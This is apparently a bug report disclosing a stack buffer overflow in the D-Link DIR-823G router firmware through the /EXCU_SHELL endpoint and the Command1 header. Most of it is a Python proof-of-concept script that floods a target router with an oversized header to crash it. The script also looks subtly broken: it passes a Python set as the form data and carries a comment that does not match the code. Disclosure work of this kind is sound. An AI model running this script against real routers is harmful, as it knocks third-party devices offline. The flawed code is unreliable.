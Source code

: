 # Bug Report: Buffer Overflow in D-Link DIR-823G Router
A buffer overflow vulnerability has been identified in the D-Link DIR-823G router firmware that allows remote attackers to potentially execute arbitrary code or cause denial of service through malformed HTTP requests.

## Vulnerability Details

### Product Information
- **Product**: D-Link DIR-823G Wireless Router
- **Affected Version**: A1V1.0.2B05
- **Download Source**: http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-823G
- **Vulnerability Type**: Stack-based Buffer Overflow

## Description:
The vulnerable code path processes HTTP requests to the `/EXCU_SHELL` endpoint and handles the `Command1` header parameter. When `FillMacCloneMac` is specified with excessive data, the buffer overflow occurs during string concatenation operations.

![alt text](image-2.png)
## poc
![alt text](image.png)
![alt text](image-3.png)

## Reproduce
```python
#!/usr/bin/env python3
import requests
import sys

def exploit(target, overflow_size=10500):
    url = f"{target}/EXCU_SHELL"
    
    # Create overflow payload
    overflow_payload = "A" * overflow_size
    
    headers = {
        'Command1': 'FillMacCloneMac' + overflow_payload,
        'Confirm1': 'apply'
    }
    
    # Try to control a1+12 (MAC data) via cmd0
    data = {
        'test'
    }
    
    print(f"[*] Target: {target}")
    print(f"[*] Overflow size: {overflow_size}")
    print(f"[*] Sending FillMacCloneMac with cmd0 overflow...")
    
    try:
        response = requests.post(
            url,
            headers=headers,
            data=data,
            timeout=10,
            verify=False
        )
        
        print(f"[+] Status: {response.status_code}")
        print(f"[+] Response: {response.text}")
        
    except requests.exceptions.Timeout:
        print("[!] Timeout - possible crash")
    except requests.exceptions.ConnectionError:
        print("[!] Connection error - possible crash")
    except Exception as e:
        print(f"[-] Error: {e}")

if __name__ == "__main__":
    if len(sys.argv) < 2:
        print("Usage: python3 poc.py <target> [overflow_size]")
        print("Example: python3 poc.py http://192.168.0.1 10500")
        sys.exit(1)
    
    target = sys.argv[1]
    overflow_size = int(sys.argv[2]) if len(sys.argv) > 2 else 10500
    
    exploit(target, overflow_size)
```
